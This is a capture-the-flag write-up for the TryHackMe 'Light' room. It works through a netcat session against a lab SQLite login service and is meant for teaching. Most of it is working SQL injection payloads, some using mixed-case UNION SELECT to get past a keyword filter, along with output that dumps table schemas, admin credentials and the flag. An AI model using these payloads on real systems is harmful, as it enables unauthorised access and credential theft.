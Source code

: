 ```yaml
---
date: 2025-02-04T11:27:19-05:00
title: "Writeup: TryHackMe Light"
draft: true
see_also: []
categories: [it, writeups]
---
```


{{< callout type="info" >}}
- [Light](https://tryhackme.com/r/room/lightroom)
- Difficulty: easy
- Platform: db

I am working on a database application called Light! Would you like to try it out?  
If so, the application is running on port 1337. You can connect to it using `nc MACHINE_IP 1337`  
You can use the username `smokey` in order to get started.

{{< /callout >}}

Based on SQLite explotaition paper: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

```
└─$ nc 10.10.38.231 1337
Welcome to the Light database!
Please enter your username: blah
Username not found.
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: smokey'
Error: unrecognized token: "'smokey'' LIMIT 30"

Please enter your username: smokey'--
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)

Please enter your username: smokey' or '
Password: vYQ5ngPpw8AdUmL

Please enter your username: ' UNION 
Ahh there is a word in there I don't like :(

Please enter your username: -1' UnioN Select group_concat(tbl_name) FRoM sqlite_master WhEre type='table' and tbl_name NOT like 'sqlite_%' or '
Password: usertable,admintable

Please enter your username: -1'  UnIon SeLeCT sql FroM sqlite_master WHerE type!='meta' AND sql NOT NULL AND name ='usertable' or '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: -1'  UnIon SeLeCT sql FroM sqlite_master WHerE type!='meta' AND sql NOT NULL AND name ='admintable' or '
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: -1'  UnIon SeLeCT group_concat(username) FroM 'admintable' WHERE id NOT NULL or ' 
Password: T[REDACTED]n,flag
Please enter your username:-1'  UnIon SeLeCT group_concat(password) FroM 'admintable' WHERE id NOT NULL or '
Password: m[REDACTED]7,T[REDACTED]}

```

Or better:

```
Please enter your username: -1'  UnIon SeLeCT GROUP_CONCAT(username || ' ' || password, ', ') AS combined FroM 'admintable' WHERE id NOT NULL or '
Password: T[REDACTED]n m[REDACTED]7, flag T[REDACTED]}
```

## What is the admin username?

## What is the password to the username mentioned in question 1?

## What is the flag?


